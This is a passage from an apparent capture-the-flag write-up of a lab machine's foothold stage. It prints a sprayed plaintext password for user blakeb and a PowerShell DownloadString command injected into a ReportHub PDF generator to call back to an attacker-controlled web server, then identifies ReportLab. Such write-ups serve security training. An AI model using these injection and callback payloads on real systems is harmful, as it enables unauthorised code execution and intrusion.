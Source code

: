 
## 2. Foothold: {#2-dot-foothold}


### Finding blakes login password for reporthub after making a mistake: {#finding-blakes-login-password-for-reporthub-after-making-a-mistake}

So after some more fuzzing and password spraying I had realized, I had the Payload Encoding option turned on in burpsuite.

-   {{< figure src="/ox-hugo/2025-04-13-164616_.png" >}}

After turning this off, it turned out I had blakeb's password all along.

-   {{< figure src="/ox-hugo/2025-04-13-164524_.png" >}}
    -   `blakeb:ThisCanB3typedeasily1@`


### Logging into ReportHub as Blake: {#logging-into-reporthub-as-blake}

Logging into ReportHub we are given 4 different options:

-   {{< figure src="/ox-hugo/2025-04-14-062526_.png" >}}

Clicking into each option provides what appears to be the same page.

-   {{< figure src="/ox-hugo/2025-04-14-062741_.png" >}}

We can enter dates, contact number, a message &amp; then the ability to upload a signature &amp; then generate a pdf.

The first thing that strikes me is that the justification box has the ability to enter code, this coupled with the fact that the contents of the justification box has to be processed when generating a PDF leads me to believe we could potentially get code execution this way.


### Trying to get RCE in ReportHub: {#trying-to-get-rce-in-reporthub}

I create a code box in the pdf generator and enter the below. I also start a python web server.

```powershell
powershell -Command "(new-object net.webclient).DownloadString('http://10.10.14.20:9000/test')"
```

-   {{< figure src="/ox-hugo/2025-04-14-063221_.png" >}}

When I click to generate the pdf it forces me to upload a signature, I upload a cat picture and generate it and are provided the below.

-   {{< figure src="/ox-hugo/2025-04-14-063621_.png" >}}


### Discovering ReportLab is being used: {#discovering-reportlab-is-being-used}

Running `exiftool` on the downloaded pdf shows us that it's using the ReportLab PDF library
